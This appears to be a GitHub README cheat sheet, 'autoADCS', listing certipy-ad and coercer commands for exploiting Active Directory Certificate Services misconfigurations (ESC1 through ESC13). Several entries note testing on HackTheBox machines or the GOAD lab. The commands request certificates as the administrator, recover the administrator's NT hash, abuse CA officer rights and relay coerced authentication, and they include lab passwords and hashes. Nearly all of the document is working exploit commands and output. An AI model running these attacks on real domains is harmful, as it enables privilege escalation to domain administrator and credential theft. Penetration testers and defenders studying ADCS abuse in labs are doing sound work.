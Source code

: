 # autoADCS

### ESC1
Tested on https://app.hackthebox.com/machines/531
```
certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
```
OR OR OR 
```
certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
```
#### faketime
```
➜  escape ntpdate -q sequel.htb
2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap
```
```
➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
### ESC4
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad template -username khal.drogo@essos.local -password horse -template ESC4 -save-old

certipy-ad req -username khal.drogo@essos.local -password horse -ca ESSOS-CA -target essos.local -template ESC4 -upn administrator@essos.local
```
### ESC6
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad req -username administrator@essos.local -password horse -ca ESSOS-CA -target essos.local -template User -upn administrator@essos.local
```
### ESC7
Tested on https://app.hackthebox.com/machines/572
```
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'pass'

certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'pass'

certipy-ad ca -ca manager-DC01-CA -issue-request 21 -username raven@manager.htb -p 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 21 -username raven@manager.htb -p 'pass'
```
#### faketime
```
ntpdate -q 10.10.11.236

faketime '2024-12-19 08:12:01' certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
### ESC8
Tested on XXXXX-XXXXX
```
certipy-ad relay -target 'http://172.16.XX.XX/'

coercer coerce -u XX$@XXXXX.XX --hashes :3565f3f4123cfbd6fb880a0978fffc81 -l 10.XX.XX.XX -t 172.16.XX.XX --always-continue

certipy-ad auth -pfx XXXX.pfx
```
### ESC9
Tested on https://app.hackthebox.com/machines/Certified
```
certipy-ad account update -username management_svc@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn administrator

certipy-ad req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug

certipy-ad account update -username management_svc@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn ca_operator@certified.htb
```
### ESC11
```
certipy-ad relay -target http://10.10.10.10 -ca SubCA
```
### ESC13
Tested on https://app.hackthebox.com/machines/595
```
certipy-ad req -u svc_cabackup -hashes :c9872f1bc10bdd522c12fc2ac9041b64 -ca mist-DC01-CA -template ManagerAuthentication -dc-ip 192.168.100.100 -dns 192.168.100.100 -key-size 4096

python3 gettgtpkinit.py -cert-pfx pfx_file /svc_cabackup ccache_file -dc-ip 192.168.100.100 -
```
